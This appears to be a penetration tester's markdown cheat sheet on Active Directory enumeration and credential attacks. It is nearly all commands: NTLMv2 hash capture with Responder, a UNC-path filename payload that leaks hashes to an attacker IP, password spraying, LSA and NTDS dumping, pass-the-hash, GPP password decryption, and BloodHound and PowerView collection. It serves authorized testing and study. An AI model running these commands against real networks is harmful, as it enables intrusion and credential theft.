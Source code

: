 # 🔭 AD Enumeration

## Capturing NTLMv2 Hashes

!!! info
    🐈‍⬛ Hashcat mode -> 5600

> <https://github.com/Kevin-Robertson/Inveigh>

```shell
# responder
sudo responder -I eth0

# smb server
impacket-smbserver -smb2support <sharename> $(pwd)

# windows privileged
inveigh.exe -httpd <ip>
```

### UNC Attack

```shell
# from inside the machine (shortcut file, shell or web attack)
dir \\<IP>\test
Content-Disposition: form-data; name="myFile"; filename="\\\\<ip>\\test"
```

## Living off the Land

```shell
# list domain users
net user /domain
net user /domain <username>
# list domain groups
net group /domain
net group /domain <groupname>

# add user to group
net group <groupname> <username> /add /domain

# list a share
ls \\dc1.corp.com\sysvol\corp.com\

# password policies
net accounts /domain

# get current domain name
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

## PowerView

```shell
# if scripts can be imported
powershell -ep bypass
Import-Module .\PowerView.ps1

# domain info
Get-NetDomain
# list users
Get-NetUser
Get-NetUser | select cn
Get-NetUser <usercn>
# list groups
Get-NetGroup
Get-NetGroup | select cn
Get-NetGroup <groupcn> | select member
# list computers
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

# find local admin access under current user
Find-LocalAdminAccess
# see who is logged on
Get-NetSession -ComputerName <computer>
# if fails, use psloggedon.exe, needs Remote Registry active on host
PsLoggedon.exe \\<computer>

# list spn
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# or
setspn -L iis_service
# list Access Control Entries (ACE) of user
Get-ObjectAcl -Identity <user>
# convert SID to name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# filter by perm GenericAll for a specific group
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# find AS-REP Roastable accounts
Get-DomainUser -PreauthNotRequired -verbose
# find kerberoastable accounts
Get-NetUser -SPN | select serviceprincipalname

# find shares
Find-DomainShare
```

## Password Spraying

> <https://github.com/ropnop/kerbrute>

```shell
# nxc or cme
nxc smb <ip> -u users.txt -p <password> -d <domain> --continue-on-success

# kerbrute
kerbrute passwordspray -d <domain> users.txt <password> --dc <dc_ip>
```

## User Enumeration

> <https://github.com/lkarlslund/ldapnomnom>

```shell
# enum users via Kerberos
kerbrute enumusers --dc <ip> -d <domain> <userlist>

ldapnomnom -dnsdomain <domain> -server <dc-ip> -input <wordlist>

nxc smb <ip> -u <user> -p <pass> --users

# windows
.\Rubeus.exe brute /users:<userlist> /passwords:<wordlist> /domain:<domain>
```

## Credential Testing

!!! tip
    🍪 NetExec

    - `[+]` is valid credentials
    - `[pwned!]` is valid credential with privileges 

```shell
# nxc
# check valid domain credentials
nxc smb <ip> -u <user> -p <password> -d <domain>
# check valid local credentials
nxc smb <ip> -u <user> -p <password> --local-auth

# check in a range of machines
nxc smb x.x.x.70-76 -u <user> -p <password> -d <domain> --continue-on-success

# with a userlist and wordlist
nxc smb <ip> -u <userlist> -p <wordlist> -d <domain> --continue-on-success

# list shares, users or all
nxc smb <ip> -u <user> -p <pass> -d <domain> --shares
nxc smb <ip> -u <user> -p <pass> -d <domain> --users
nxc smb <ip> -u <user> -p <pass> -d <domain> --all

# dump lsa or ntds
nxc smb <ip> -u <user> -p <pass> --lsa
nxc smb <ip> -u <user> -p <pass> --ntds

# enumerate users by rid
nxc smb <ip> -u 'guest' -p '' --rid-brute

# execute a command
nxc smb <ip> -u <user> -p <pass> -x <command>

# PTH
nxc smb <ip> -u <user> -H <hash> 

# kerbrute
kerbrute brute -d <domain> -u <user> -p <wordlist>
```

## GPP password in SYSVOL policy

```shell
# manual
grep -inr "cpassword" . --include=*.xml

# GPPPassword
# with NULL session
impacket-Get-GPPPassword -no-pass <ip>
# with creds
impacket-Get-GPPPassword <domain>/<user>:<pass>@<ip>
# parse a local file
impacket-Get-GPPPassword -xmlfile <Policy>.xml local

# nxc
nxc smb <ip> -u <user> -p <pass> -d <domain> -M gpp_password
```

Decrypt the password

```shell
gpp-decrypt <pass>
```

## BloodHound

```shell
sudo neo4j start
bloodhound
# upload collected zip 
```

### SharpHound

!!! warning
    For Bloodhound legacy (4.3.1) compatibility, use sharphound [v1.1.1.1](https://github.com/SpecterOps/SharpHound/releases/tag/v1.1.1)

```shell
.\SharpHound.exe -c All

Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "dom audit"
```

### bloodhound-python

```shell
bloodhound-python -c All -u <user> -p <pass> -d <domain> -dc <dc_hostname> -ns <ns_ip> --zip 
```

## LDAPDomainDump

```shell
ldapdomaindump -u '<domain>\<user>' -p '<pass>' <ip>
```

## Automated Enumeration

### ADpeas

> <https://github.com/61106960/adPEAS>

```shell
Import-Module .\adPEAS.ps1
Invoke-adPEAS
```
